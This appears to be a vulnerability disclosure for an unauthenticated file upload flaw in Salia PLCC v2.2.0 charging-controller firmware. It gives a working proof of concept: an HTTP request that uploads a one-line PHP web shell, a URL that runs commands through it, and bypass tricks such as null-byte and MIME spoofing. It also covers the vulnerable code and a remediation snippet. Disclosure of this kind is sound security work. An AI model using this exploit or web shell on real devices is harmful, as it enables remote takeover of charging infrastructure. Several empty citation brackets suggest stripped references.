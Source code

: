 # Salia PLCC v2.2.0 has a Arbitrary File Upload Vulnerability

### Description

Salia PLCC Master/Slave v2.2.0 has a Arbitrary File Upload vulnerability in the file /firmware.php ,anyone can upload a file to getshell ,which can lead to **Arbitrary Remote Command Execution**

### Vender

Office Link :https://www.echarge.de

- The latest fireware v2.2.0 download link

  http://salia.echarge.de/firmware/

  http://salia.echarge.de/firmware/firmware_2.2.0.image

![image-20250528104625114](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281046263.png)

### Step

- open the web-ui

![image-20250528103316575](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281033726.png)

- the fireware upload area can upload any file.

![image-20250528103409980](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281034107.png)

### POC

```http
POST /firmware.php HTTP/1.1
Host: XXXX
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="media"; filename="malicious.php"
Content-Type: application/octet-stream

<?php @system($_GET["cmd"]);?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



Then 

```
http://target.com/uploads/malicious.php?cmd=id
```



![image-20250528104057608](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281040740.png)



### Analysis

#### Vulnerability Analysis: Arbitrary File Upload in PHP

The vulnerable code in this file is located in the file upload handling section, specifically:

`/firmware.php`

```php
if($_SERVER['REQUEST_METHOD']=='POST'){
    $uploadManager=new \UploadManager\Upload('media');
    $chunks=$uploadManager->upload('uploads');
    if(!empty($chunks)){
        foreach($chunks as $chunk){
            $fw_install = True;
            $update_ready = True;
            $update_filename = $chunk->getNameWithExtension();
        }
    }
}
```



1. **Vulnerability Description**
    The code lacks proper file validation, allowing attackers to upload malicious files (e.g., `.php` scripts) due to:
   - **No file extension/MIME validation** (): The `UploadManager` class processes files without checking extensions or MIME types (e.g., `image/jpeg` vs. `application/x-php`).
   - **No content verification** (): Files like `malicious.php` disguised as `image.jpg` bypass checks by embedding PHP code (e.g., `<?php system($_GET["cmd"]); ?>`).
   - **Unrestricted storage** (): Uploaded files are saved in `/uploads/` without disabling script execution (e.g., missing `.htaccess` rules like `php_flag engine off`).
2. **Proof of Concept (PoC)**
    Attackers exploit this by:
   - **Fake extensions**: Uploading `shell.php.jpg` or using null bytes (`shell.php%00.jpg`) ().
   - **MIME spoofing**: Setting `Content-Type: image/jpeg` for a PHP file ().
   - **Direct execution**: Accessing `http://target.com/uploads/malicious.php?cmd=id` to execute commands ().
3. **Impact**
   - **Remote Code Execution (RCE)**: Full server compromise ().
   - **Data breaches**: Access to sensitive files (e.g., `/etc/passwd`) ().
   - **Persistence**: Uploaded backdoors enable long-term access ().
4. **Mitigation**
   - **Whitelist validation**: Allow only `.bin`, `.zip` for firmware ().
   - **Content checks**: Use `getimagesize()` or file signatures ().
   - **Secure storage**: Store files outside webroot or disable execution ().
   - **Randomize filenames**: Use `uniqid()` to prevent path prediction ().

### Code-Level Fix Example

```php
// Secure file upload snippet
$allowed_ext = ['bin', 'zip'];
$file_ext = strtolower(pathinfo($_FILES['media']['name'], PATHINFO_EXTENSION));
if (!in_array($file_ext, $allowed_ext)) {
    die("Invalid file type.");
}
$new_filename = uniqid() . '.' . $file_ext;
move_uploaded_file($_FILES['media']['tmp_name'], '/secure/storage/' . $new_filename);
```


